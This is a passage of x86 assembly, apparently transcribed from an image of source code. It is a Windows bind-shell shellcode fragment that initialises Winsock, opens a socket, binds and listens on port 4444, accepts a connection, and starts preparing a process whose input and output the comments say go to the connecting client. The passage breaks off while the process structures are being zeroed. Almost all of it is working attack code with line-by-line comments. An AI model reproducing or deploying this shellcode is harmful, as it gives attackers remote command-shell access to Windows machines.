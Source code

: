 ```
    sar eax, 0x08
    push eax
    mov [ebp + 0x34], esp
WSAStartup: ;initialise networking
    xor edx,edx ;make some stack space
    mov dh, 0x03 ;sizeof(WSADATA) is 0x190
    sub esp, edx     ;initialize winsock
    push esp ;use stack for WSADATA
    push 0x02 ;wVersionRequested
    call [ebp + 20h] ;call WSAStartup
    add esp, 0x0300 ;move esp over WSAData
create_socket:
    xor eax, eax ;zero eax
    push eax ;Push the dwFlags argument to WSASocket as 0.
    push eax ;Push the g argument to WSASocket as 0.
    push eax ;Push the lpProtocolInfo argument to WSASocket as NULL.
    push eax ;Push the protocol argument to WSASocket as 0.
    inc eax ;Increment eax to 1.
    push eax ;Push the type argument to WSASocket as SOCK STREAM.
    inc eax ;Increment eax to 2.
    push eax ;Push the af argument to WSASocket as AF INET.
    call [ebp + 0x10] ;Call WSASocket to allocate a socket for later use.
    mov esi, eax ;Save the socket file descriptor in esi.
bind:
    xor eax, eax ;Zero eax for use as passing zerod arguments
    xor ebx, ebx ;Zero ebx.
    push eax ;Push zero.
    push eax ;Push zero.
    push eax ;Push the sin addr attribute of struct sockaddr in.
    mov eax, 0x5c110102 ;Set the high order bytes of eax to the port that is to be bound to and the low order bytes to AF INET.
    dec ah ;Fix the sin family attribute such that it is set appropriately.
    push eax ;Push the sin port and sin family attributes.
    mov eax, esp ;Set eax to the pointer to the initialized struct sockaddr in structure.
    mov bl, 0x10 ;Set the low order byte of ebx to 0x10 to signify the size of the structure.
    push ebx ;Push the namelen argument as 0x10.
    push eax ;Push the name argument as the pointer to the struct sockaddr in structure.
    push esi ;Push the file descriptor that was returned from WSASocket
    call [ebp + 0x14] ;Call bind to bind to the selected port.
listen:
    push ebx ;Push 0x10 for use as the backlog argument to listen.
    push esi ;Push the file descriptor that was returned from WSASocket.
    call [ebp + 0x18] ;Call listen to begin listening on the port that was just bound to.
accept:
    push ebx ;Push 0x10 onto the stack.
    mov edx, esp ;Save the pointer to 0x10 in edx.
    sub esp, ebx ;Allocate 16 bytes of stack space for use as the output addr to the accept call.
    mov ecx, esp ;Save the pointer to the output buffer in ecx.
    push edx ;Push the addrlen argument as the pointer to the 0x10 on the stack.
    push ecx ;Push text addr argument as the pointer to the output struct sockaddr in on the stack
    push esi ;Push the file descriptor that was returned by WSASocket.
    call [ebp + 0x1c] ;Call accept and wait for a client connection to arrive. The client connection will be used for the redirected output from the command interpreter.
    mov esi, eax ;Save the client file descriptor in esi.
initialize_process:
    xor ecx, ecx ;Zero ecx.
    mov cl, 0x54 ;Set the low order byte of ecx to 0x54 which will be used to represent the size of the STARTUPINFO and PROCESS INFORMATION structures on the stack.
    sub esp, ecx ;Allocate stack space for the two structures.
    mov edi, esp ;Set edi to point to the STARTUPINFO structure.
    push edi ;Preserve edi on the stack as it will be modified by the following instructions.
zero_structs:
    xor eax, eax ;Zero eax to for use with stosb to zero out the two structures.
```
